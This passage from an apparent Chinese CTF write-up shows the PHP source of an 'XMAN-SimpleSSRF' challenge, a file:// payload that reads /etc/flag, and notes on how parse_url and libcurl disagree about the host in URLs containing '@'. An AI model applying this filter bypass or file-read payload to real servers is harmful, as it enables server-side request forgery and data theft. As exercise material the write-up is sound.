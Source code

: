payload

```
file://www.baidu.com/etc/flag?
```



### XMAN-SimpleSSRF

```php
<?php

/*
 * I stored flag at baidu.com
 */

show_source(__FILE__);

if(isset($_GET['url'])){
    $url = parse_url($_GET['url']);
    if(!$url){
        die('Can not parse url: '.$_GET['url']);
    }
    if(substr($_GET['url'], strlen('http://'), strlen('baidu.com')) === 'baidu.com'){
        die('Hey, papi, you have to bypass this!');
    }
    if(
        $url['host'] === 'baidu.com'
    ){
        $ch = curl_init();
        curl_setopt ($ch, CURLOPT_URL, $_GET['url']);
        curl_exec($ch);
        curl_close($ch);
    }else{
        die('Save it, hacker!');
    }
}
```

知识点

- file协议
- 匹配规则

```
php parse_url：
host: 匹配最后一个@后面符合格式的host

libcurl：
host：匹配第一个@后面符合格式的host
```
